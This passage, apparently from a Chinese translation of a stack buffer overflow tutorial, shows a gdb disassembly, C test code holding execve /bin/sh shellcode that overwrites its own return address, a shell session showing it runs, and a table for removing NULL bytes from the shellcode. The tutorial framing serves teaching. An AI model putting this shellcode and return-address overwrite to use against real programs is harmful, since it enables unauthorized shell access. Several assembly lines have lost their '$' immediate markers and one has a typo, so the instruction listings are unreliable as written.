 ```
0x800014e : leal 0xc(%esi),%edx
0x8000151 : int x80
0x8000153 : movl x1,%eax
0x8000158 : movl x0,%ebx
0x800015d : int x80
0x800015f : call 0x8000135
0x8000164 : das
0x8000165 : boundl 0x6e(%ecx),%ebp
0x8000168 : das
0x8000169 : jae 0x80001d3 <__new_exitfn+55>
0x800016b : addb %cl,0x55c35dec(%ecx)
End of assembler dump.
(gdb) x/bx main+3
0x8000133 : 0xeb
(gdb)
0x8000134 : 0x2a
(gdb)
.
.
.
```

testsc.c

```
char shellcode[] =
    "\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
    "\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
    "\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
    "\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";

void main() {
    int *ret;

    ret = (int *)&ret + 2;
    (*ret) = (int)shellcode;

}
```

```
[aleph1]$ gcc -o testsc testsc.c
[aleph1]$ ./testsc
$ exit
[aleph1]$
```

成了! 但是这里还有一个障碍, 在多数情况下, 我们都是试图使一个字符缓冲区溢出. 那么在我们shellcode中的任何`NULL`字节都会被认为是字符串的结尾, 复制工作就到此为止了. 对于我们的破解工作来说, 在shellcode里不能有`NULL`字节. 下面来消除这些字节,同时把代码精简一点.

问题指令： 替代方案：

```
movb x0,0x7(%esi) xorl %eax,%eax
molv x0,0xc(%esi) movb %eax,0x7(%esi)
 movl %eax,0xc(%esi)
-------------------------------------
movl xb,%eax      movb xb,%al
-------------------------------------
movl x1, %eax     xorl %ebx,%ebx
movl x0, %ebx     movl %ebx,%eax
 inc %eax
```
